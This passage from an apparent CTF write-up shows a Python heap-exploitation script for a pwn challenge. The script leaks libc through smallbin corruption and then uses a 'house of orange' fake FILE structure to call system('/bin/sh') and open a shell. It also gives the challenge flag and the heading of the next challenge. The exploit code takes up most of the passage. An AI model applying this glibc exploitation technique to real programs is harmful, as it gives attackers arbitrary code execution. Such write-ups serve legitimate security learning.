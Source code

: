 ```python

mymalloc(0x100, 7) #put to smallbin

mywrite(2, p64(1) + chr(FAKE_CHUNK_LSB))
mymalloc(0x80, 8)
mymalloc(0x80, 0)

libc_addr = u64(showname() + "\x00\x00") - FAKE_CHUNK_OFF
print hex(libc_addr)
#smallbin broken for 0x90


#house of orange---------------------

fake_file = p64(0)
fake_file += p64(0x61)
fake_file += p64(1)
fake_file += p64(libc_addr + e.symbols["_IO_list_all"] - 0x10)
fake_file += p64(2) + p64(3)
fake_file += "\x00" * 8
fake_file += p64(libc_addr + next(e.search('/bin/sh\x00'))) #/bin/sh addr
fake_file += (0xc0-0x40) * "\x00"
fake_file += p32(0) #mode
fake_file += (0xd8-0xc4) * "\x00"
fake_file += p64(libc_addr + IO_STR_FINISH - 0x18) #vtable_addr
fake_file += (0xe8-0xe0) * "\x00"
fake_file += p64(libc_addr + e.symbols["system"])

mymalloc(0x90, 9)
mymalloc(0x100, 11)
mymalloc(0x100, 14)
#if no this padding, consolidate will cause SIG_BUS?
myfree(9)
myfree(11)
mymalloc(0xA0, 10)
mymalloc(0xF0, 12)
mymalloc(0x90, 13)
myfree(12)

mywrite(11, fake_file)
mymalloc(400, 15)

sh.interactive()
```

However, the flag is `flag{gl0bal_m4x_fastb1n_atta3k_OMG_too_kewl}`, which is different from my solution since I didn't attack `global_max_fast`

## 982 Pwn / Bank Reimplemented ##

**Description**
